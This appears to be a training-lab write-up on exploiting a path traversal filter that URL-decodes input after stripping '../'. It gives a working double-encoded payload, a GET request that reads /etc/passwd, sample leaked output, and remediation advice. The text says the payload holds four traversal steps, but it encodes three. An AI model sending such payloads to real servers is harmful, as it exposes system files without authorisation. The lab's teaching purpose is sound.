

# Path Traversal Vulnerability Exploitation Report

## Lab: File Path Traversal – Superfluous URL-Decode Bypass

### Objective
Retrieve the contents of the `/etc/passwd` file by exploiting a path traversal vulnerability where the application strips traversal sequences and then performs an additional URL-decode.

### Vulnerability Description
The application attempts to block input containing path traversal sequences (`../`). It first checks for and strips these sequences, then performs a URL-decode on the input before using it in filesystem operations. This double-processing creates a vulnerability: an attacker can double-encode the traversal sequences to bypass the initial filter, after which the second URL-decode reveals the malicious path.

### Exploitation Steps

1. **Intercept a request** for a product image using Burp Suite.
   - Example endpoint:
     ```
     GET /image?filename=image1.jpg
     ```

2. **Encode the traversal sequence twice** to bypass the filter.

   | Character | Single URL-encode | Double URL-encode |
   |-----------|------------------|-------------------|
   | `.` | `%2e` | `%25%32%65` |
   | `/` | `%2f` | `%25%32%66` |

3. **Construct the payload** for `../../../../etc/passwd`:
   ```
   %25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66etc/passwd
   ```

4. **Send the request**:
   ```
   GET /image?filename=%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66etc/passwd
   ```

### Bypass Explanation

| Step | Processing Stage | Value |
|------|----------------|-------|
| 1 | Original payload | `%25%32%65%25%32%65%25%32%66...` |
| 2 | Filter: searches for `../` | Not found (all characters are URL-encoded) |
| 3 | URL-decode (first) | `%2e%2e%2f%2e%2e%2f%2e%2e%2fetc/passwd` |
| 4 | URL-decode (second - application) | `../../../../etc/passwd` |
| 5 | Filesystem resolution | `/etc/passwd` is read |

### Result
The response contains the contents of the `/etc/passwd` file, confirming successful exploitation.

### Sample Response (partial)
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
...
```

### Key Takeaway
The vulnerability exists because the application performs **URL-decoding after the security filter**, not before. This allows double-encoded payloads to bypass the filter entirely.

### Remediation Recommendations
- Always URL-decode user input **before** applying security filters, not after.
- Use a whitelist approach for allowed filenames.
- Normalize paths using `realpath()` or equivalent after decoding.
- Apply recursive stripping or canonicalization.

### Tools Used
- Burp Suite (Proxy & Repeater)
- CyberChef (for encoding verification)
